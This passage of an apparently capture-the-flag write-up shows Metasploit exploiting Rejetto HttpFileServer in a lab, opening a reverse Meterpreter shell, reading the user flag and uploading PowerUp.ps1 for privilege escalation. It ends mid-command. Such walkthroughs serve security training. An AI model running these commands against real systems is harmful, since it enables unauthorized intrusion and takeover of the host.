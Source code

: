         #  Name                                   Disclosure Date  Rank       Check  Description
        -  ----                                   ---------------  ----       -----  -----------
        0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
        ```
    - Use it and gain access!
        ```bash
        msf6 > use 0
        msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
        RPORT => 8080
        msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.197.255
        RHOSTS => 10.10.197.255
        msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.11.25.205
        LHOST => 10.11.25.205
        msf6 exploit(windows/http/rejetto_hfs_exec) > exploit 

        [*] Started reverse TCP handler on 10.11.25.205:4444 
        [*] Using URL: http://0.0.0.0:8080/HweAtVt2hlPv
        [*] Local IP: http://192.168.40.129:8080/HweAtVt2hlPv
        [*] Server started.
        [*] Sending a malicious request to /
        /usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
        /usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
        [*] Payload request received: /HweAtVt2hlPv
        [*] Sending stage (175174 bytes) to 10.10.197.255
        [*] Meterpreter session 1 opened (10.11.25.205:4444 -> 10.10.197.255:49251) at 2021-01-11 04:47:19 -0500
        [*] Server stopped.
        [!] This exploit may require manual cleanup of '%TEMP%\NAKkKmMQjUaysU.vbs' on the target

        meterpreter >
        ```
    - Get the user flag.
        ```bash
        meterpreter > ls Desktop
        Listing: Desktop
        ================

        Mode              Size  Type  Last modified              Name
        ----              ----  ----  -------------              ----
        100666/rw-rw-rw-  282   fil   2019-09-27 07:07:07 -0400  desktop.ini
        100666/rw-rw-rw-  70    fil   2019-09-27 08:42:38 -0400  user.txt

        meterpreter > cat Desktop/user.txt
        ��REDACTED
        ```

## Privilege Escalation
- Upload the [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) shell to enumerate.
    ```bash
    meterpreter > upload ~/PowerUp.ps1
    [*] uploading  : /home/kali/PowerUp.ps1 -> PowerUp.ps1
    [*] Uploaded 1.87 MiB of 1.87 MiB (100.0%): /home/kali/PowerUp.ps1 -> PowerUp.ps1
    [*] uploaded   : /home/kali/PowerUp.ps1 -> PowerUp.ps1
    ```
- Execute the script
    ```bash
    meterpreter > load powershell
    meterpreter > powershell_shell 